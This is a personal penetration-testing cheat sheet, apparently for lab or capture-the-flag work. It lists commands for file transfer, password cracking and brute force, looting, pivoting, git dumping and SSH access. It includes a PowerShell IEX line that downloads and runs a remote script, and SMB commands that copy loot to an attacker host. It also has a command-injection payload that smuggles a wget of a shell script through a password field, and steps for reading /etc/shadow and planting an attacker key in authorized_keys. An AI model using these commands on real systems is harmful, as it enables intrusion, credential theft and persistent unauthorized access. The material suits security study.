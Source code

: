 ```yaml
---
description: GOTTA STICK TO THE BASICS LAHH
---
```


# Fundamentals

## File Transfer

#### Python HTTP Server

`sudo python3 -m http.server 80`

#### Netcat&#x20;

```
nc -vl [port] > file [receiver]
nc -N [receiver_IP] [receiver_port] < file [sender]
cat [file] | nc [receiver_IP] [receiver_port] - Alternative
```

#### SCP

`scp [-r] <local_path> $user@$ip:/<remote_path> [Upload local to remote]`

`scp [-r] $user@$ip:/<remote_path> <local_path> [Download remote to local]`&#x20;

#### Powershell

{% code fullWidth="false" %}
```powershell
powershell (New-Object System.Net.WebClient).DownloadFile('http://IP/file', 'file')
download = IEX(New-Object Net.WebClient).downloadString('http://IP_ADDRESS/FILE')
Invoke-WebRequest http://domain.tld/script.ps1 -OutFile C:\Windows\Tasks\script.ps1
```
{% endcode %}

#### Certutil

```
certutil -urlcache -f [path_to_file] [file_name]
```

#### SMB

```bash
#sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
#net use \\ATTACKER_IP\share /USER:user s3cureP@ssword
#copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe
#net use \\ATTACKER_IP\share /del

sudo python3 /opt/impacket/examples/smbserver.py [share_name] pwd -smb2support 
#Target
net view \10.10.14.3\
[CMD:] copy [LOOT] \[IP]\[share_name] 
[PowerShell:] Copy-Item [LOOT] \[share]\[LOOT]
```

## Password Cracking/Spraying

{% embed url="https://keydecryptor.com/" %}

{% embed url="https://github.com/openwall/john/blob/bleeding-jumbo/doc/DYNAMIC" %}
Crack salted passwords because hashcat just can't seem to get it
{% endembed %}

```
[file_ext]2john
john [--format=lm] --wordlist=/usr/share/wordlists/rockyou.txt [hash.txt]
unshadow /etc/passwd /etc/shadow > output.db

hydra [-L [userlist.txt] -P [passwordlist.txt]]/[-C [combineduserpassfile]] [IP] http[s]-post-form "/[endpoint]:log=^USER^&pwd=^PASS^[rest of POST body if exist]:F=[error message]"
-C uses file in [user:pass] format and reduces the number of combinations and reduces bruteforce time, eg. retrieve username passwords from a db

.\hashcat64.exe -m [mode] hash.txt rockyou.txt -d 1
```

{% embed url="https://github.com/stealthsploit/OneRuleToRuleThemStill" %}

{% embed url="https://kevinovitz.github.io/TryHackMe_Writeups/passwordattacks/passwordattacks/#online-password-attacks" %}

## Looting

```
cat userlist.txt | tr ' ' '\n' | grep . [Replaces all whitespaces between values with newlines]
grep -r password . 2>/dev/null [searches for the value 'password' recursively across all files]
cut -d "delimiter" -f (field number 1,2 etc.) file.txt
```

## Bypass Character Filters

```
${IFS} - Internal Field Separator, default variable in bash [Alternative to whitespace]

#Curly brace expansion
0xdf;{ping,-c,1,10.10.14.23};#
0xdf;ping -c 1 10.10.14.23;#

\r\n -> EOL, similar function to ';'
%0d : \r [Carriage return]
%0a : \n
%09 : \t

#Quotes was also not URL encoded
password=%0abash%09-c%09"wget%09http://10.10.16.48/1.sh"&backup=
```

## Pivoting & Port Forwarding

{% embed url="https://github.com/twelvesec/port-forwarding" %}

{% embed url="https://www.ivoidwarranties.tech/posts/pentesting-tuts/pivoting/proxychains/" %}

{% embed url="https://theyhack.me/Proxychains-Double-Pivoting/" %}

{% embed url="https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740" %}

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p>eg. port 3306 running on target but no mysql client, access from kali unless sum like mysqldump is there</p></figcaption></figure>

## Git

```
https://github.com/arthaud/git-dumper
git status
git diff --cached [file]
git show <hash> [in logs]
git restore [file]
git log
git checkout [hash]
```

## SSH Keys

Every revshell as an actual user -> this is the play

```
KALI
ssh-keygen -t rsa
chmod 700 ~/.ssh; chmod 600 ~/.ssh/id_rsa [kali]

REMOTE
/home/user/.ssh$ echo "[id_rsa.pub value]" > authorized_keys
chmod 700 .ssh; chmod 700 .ssh/authorized_keys
```
